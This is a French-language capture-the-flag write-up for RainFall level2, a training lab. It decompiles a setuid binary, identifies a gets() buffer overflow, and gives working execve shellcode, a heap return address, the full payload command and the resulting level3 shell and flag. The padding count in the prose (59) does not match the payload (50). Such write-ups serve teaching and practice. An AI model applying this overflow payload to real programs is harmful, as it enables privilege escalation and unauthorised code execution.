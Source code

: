 ## `Level2`

## Introduction

Nous avons un exécutable `level2` avec les droits suivants :

```bash
level2@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level2 level2   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level2 level2  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level2 level2 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2
-rw-r--r--+ 1 level2 level2   65 Sep 23  2015 .pass
-rw-r--r--  1 level2 level2  675 Apr  3  2012 .profile
```

Lorsque nous l'exécutons, il semble doubler l'entrée standard comme un effet miroir.

```bash
level2@RainFall:~$ ./level2 
ls
ls
```

Nous allons analyser et décompiler l'exécutable pour comprendre son comportement et identifier une éventuelle vulnérabilité.

## Analyse et Décompilation

## Code décomplié 

```c
void    p(void)
{
    int     memory;
    char    buffer[76];

    fflush(stdout);

    gets(buffer);

    if (memory & 0xb0000000)
    {
        printf("(%p)\n", &memory);
        exit(1);
    }

    puts(buffer);
    strdup(buffer);
}

int     main(void)
{
    p();
    return (0);
}
```

### Fonction `main`

Après décompilation, nous observons que la fonction `main` appelle la fonction `p` :

```assembly
(gdb) b main
Breakpoint 1 at 0x8048542
(gdb) disas main
Dump of assembler code for function main:
   0x0804853f <+0>:	push   %ebp
   0x08048540 <+1>:	mov    %esp,%ebp
   0x08048542 <+3>:	and    $0xfffffff0,%esp
   0x08048545 <+6>:	call   0x80484d4 <p>
   0x0804854a <+11>:	leave  
   0x0804854b <+12>:	ret    
End of assembler dump.
```

### Fonction `p`

La fonction `p` contient une vulnérabilité due à l'utilisation de `gets`, ce qui permet un débordement de tampon. Voici le désassemblage de la fonction `p` :

```assembly
(gdb) b p
Breakpoint 2 at 0x80484da
(gdb) disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:	push   %ebp
   0x080484d5 <+1>:	mov    %esp,%ebp
   0x080484d7 <+3>:	sub    $0x68,%esp
   0x080484da <+6>:	mov    0x8049860,%eax
   0x080484df <+11>:	mov    %eax,(%esp)
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:	lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:	mov    %eax,(%esp)
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:	mov    0x4(%ebp),%eax
   0x080484f5 <+33>:	mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:	mov    -0xc(%ebp),%eax
   0x080484fb <+39>:	and    $0xb0000000,%eax
   0x08048500 <+44>:	cmp    $0xb0000000,%eax
   0x08048505 <+49>:	jne    0x8048527 <p+83>
   0x08048507 <+51>:	mov    $0x8048620,%eax
   0x0804850c <+56>:	mov    -0xc(%ebp),%edx
   0x0804850f <+59>:	mov    %edx,0x4(%esp)
   0x08048513 <+63>:	mov    %eax,(%esp)
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
   0x0804851b <+71>:	movl   $0x1,(%esp)
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:	lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:	mov    %eax,(%esp)
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
   0x08048532 <+94>:	lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:	mov    %eax,(%esp)
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:	leave  
   0x0804853e <+106>:	ret    
End of assembler dump.
```

### Vérification d'adresse

Il y a une vérification sur les adresses allant de `0xb0000000` à `0xbfffffff`, empêchant ainsi l'utilisation de la pile pour stocker le shellcode. 

## Utilisation du tas (heap)

Nous pouvons utiliser le tas (heap) pour stocker notre shellcode. La fonction `strdup` utilise `malloc`, qui alloue la mémoire dans le tas. Nous voyons que `malloc` retourne toujours l'adresse `0x804a008` :

```bash
level2@RainFall:~$ ltrace ./level2 
__libc_start_main(0x804853f, 1, 0xbffff804, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                              = 0
gets(0xbffff70c, 0, 0, 0xb7e5ec73, 0x80482b5)                   = 0xbffff70c
puts("")                                                        = 1
strdup("")                                                      = 0x0804a008
+++ exited (status 8) +++
```

Nous pouvons essayer de copier un shellcode dans le tas et utiliser l'adresse allouée par `malloc` comme adresse de retour.

### Shellcode

Nous le trouvons sur ce site : https://shell-storm.org/shellcode/files/shellcode-575.html

Nous utiliserons le shellcode suivant de 21 octets :

```
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
```

## Construction du payload

Notre shellcode fait 21 octets de long. Nous devons remplir avec des données arbitraires jusqu'à 80 octets, puis les 4 derniers octets pour l'adresse de retour.

### Payload final

Le buffer d'attaque final sera structuré comme suit :

- Shellcode : 21 octets
- Remplissage de données arbitraires : 59 octets
- Adresse de retour : 4 octets

```bash
level2@RainFall:~$ python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 50 + "\x08\xa0\x04\x08"' > /tmp/exploit
```

### Exécution de l'exploit

```bash
level2@RainFall:~$ cat /tmp/exploit - | ./level2
```

## Accès au Shell

Un shell est accessible ensuite :

```bash
level2@RainFall:~$ pwd
/home/user/level2
level2@RainFall:~$ id
uid=2021(level2) gid=2021(level2) euid=2022(level3) egid=100(users) groups=2022(level3),100(users),2021(level2)
level2@RainFall:~$ whoami
level3
level2@RainFall:~$ cat /home/user/level2/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

## Conclusion

Nous avons réussi à exploiter la vulnérabilité de débordement de tampon dans `level2` en utilisant le tas (heap) pour stocker notre shellcode et en écrasant l

'adresse de retour pour pointer vers cette région. Cela nous a permis d'exécuter le shellcode et d'obtenir un shell avec les privilèges de `level3`, nous permettant de lire le flag pour le niveau suivant.

Level2 passé avec succès !
